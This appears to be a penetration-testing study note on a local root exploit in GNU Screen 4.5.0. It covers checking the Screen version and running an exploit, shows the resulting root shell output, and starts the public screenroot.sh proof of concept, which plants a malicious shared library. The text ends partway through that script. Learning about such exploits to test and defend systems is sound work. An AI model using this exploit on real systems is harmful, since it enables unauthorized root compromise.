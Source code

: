 # Vulnerable Services – GNU Screen 4.5.0 Exploit

## Overview
- Many services may contain flaws that can be exploited for **privilege escalation**.  
- **GNU Screen v4.5.0** suffers from a vulnerability due to **missing permissions check** when opening a log file.  
- This flaw allows an attacker to:
  - Truncate **any file**.
  - Create a file owned by **root** in any directory.
  - Ultimately gain **full root access**.

## Identifying Vulnerable Screen Version
```bash
screen -v
````

**Output:**

```
Screen version 4.05.00 (GNU) 10-Dec-16
```

* Confirms the system is running the **vulnerable version**.

## Exploitation Workflow

### 1. Run Exploit Script

```bash
./screen_exploit.sh
```

### 2. Verify Root Access

```bash
id
```

**Output:**

```
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),
46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)
```

* Successfully escalated privileges to **root**.

## Proof-of-Concept Exploit Script

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)

echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."

# Malicious shared library
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
```